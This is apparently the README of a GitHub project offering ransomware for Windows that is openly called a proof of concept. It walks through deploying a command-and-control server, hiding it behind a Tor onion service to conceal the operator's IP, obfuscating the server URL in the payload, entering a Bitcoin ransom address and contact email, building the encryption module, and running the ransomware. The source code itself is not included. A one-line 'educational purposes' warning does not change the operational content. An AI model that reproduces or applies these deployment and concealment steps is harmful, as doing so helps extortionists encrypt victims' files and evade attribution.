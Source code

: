 <h1 align="center">Don't-Cry Ransomware PoC</h1>

<div align="center">
  <img src="https://img.shields.io/badge/Python-3.12%2B-blue?logo=python&logoColor=white" alt="Python">
  <img src="https://img.shields.io/badge/Requires-Cython-yellow?logo=python&logoColor=white" alt="Cython">
  <img src="https://img.shields.io/badge/Rust-1.87.0%2B-orange?logo=rust&logoColor=white" alt="Rust >= 1.87.0">
  <img src="https://img.shields.io/github/license/memecoder12345678/DCry-Ransomware?style=flat&logo=open-source-initiative&logoColor=white" alt="License">
  <img src="https://img.shields.io/badge/Platform-Windows-blue?logo=windows&logoColor=white" alt="Platform">
</div>

![DCry](imgs/dcry.png)
PoC ransomware in Python targeting Windows systems 💀💀💀

---

## Setup & Installation

### Server (Linux)

1. Install the required packages:

  ```powershell
  pip3 install -r requirements-server.txt
  ```

2. Run the server:

  ```bash
  gunicorn -b 0.0.0.0:8080 src.server:app
  ```

> Or for debugging:

  ```bash
  python3 src/server.py
  ```

> 💡 **Tip:** You can also run the server behind a Tor hidden service to hide your real IP.
> Example (in `torrc`):
>
> ```txt
> HiddenServiceDir /var/lib/tor/dcry/
> HiddenServicePort 80 127.0.0.1:8080
> ```
>
> After restarting Tor, your Onion address will be available in `/var/lib/tor/dcry/hostname`.

### Client (Windows)

1. Install the required packages:
  
  ```powershell
  pip install -r requirements-client.txt
  ```

---

## Usage

1. Open [`src/dcry.py`](src/dcry.py)
  
    * Replace the `YOUR_URL` variable with the encoded URL using the `dx42` function like this:
      ```python
      YOUR_URL = dx42(b"YOUR_ENCODED_URL").decode()
      ```
      (Use the `ex42` function from the `edx42` module to encode your URL first.)
      
      Example:
      ```python
      encoded_url = ex42(b"https://your-tor-server.onion")
      YOUR_URL = dx42(encoded_url).decode()
      ```
  
     * Replace `YOUR_PROXY`, `YOUR_BITCOIN_ADDRESS`, `YOUR_EMAIL_ADDRESS`, `YOUR_DOWNLOAD_URL` similarly.
     * Set `dev_mode = False` if not using development mode.

2. Open [`src/decryptor.py`](src/decryptor.py)

   * Set `dev_mode = False` if not using development mode.

3. Build the Cython code:

  ```powershell
  python src/setup.py build_ext --inplace
  Move-Item -Path file_crypto.*.pyd -Destination src -Force
  ```

4. Run the server (WSGI):

  ```bash
  gunicorn -b 0.0.0.0:8080 src.server:app
  ```

5. Run the ransomware:

  ```powershell
  python src/dcry.py
  ```

6. Run the decryptor:

  ```powershell
  python src/decryptor.py
  ```

---

## Performance Note

**Estimated encryption speed with 16 processes (1 file, 53 GB):**

- Speed per process: ~56 MB/s (performance dropped from 270 because the SSD ran out of SLC cache)
- Using 16 processes: ~150 MB/s (performance dropped from ~200 to ~100 because of I/O congestion and GIL)


> ⚡ Using multiprocessing allows Python to approach native C/C++ speeds for large files.

---

## Warning

> [!WARNING]
> This project is a ransomware simulation for educational purposes only.

---

## FAQ

  * See details in [FAQ.md](docs/FAQ.md)

## Contributing

  * See contribution guidelines in [CONTRIBUTING.md](docs/CONTRIBUTING.md)

## Code of Conduct

  * See our community standards in [CODE\_OF\_CONDUCT.md](docs/CODE_OF_CONDUCT.md)

## Security

  * See the security policy in [SECURITY.md](docs/SECURITY.md)

## License

  * This project is licensed under the terms of the [Apache License 2.0](./LICENSE)

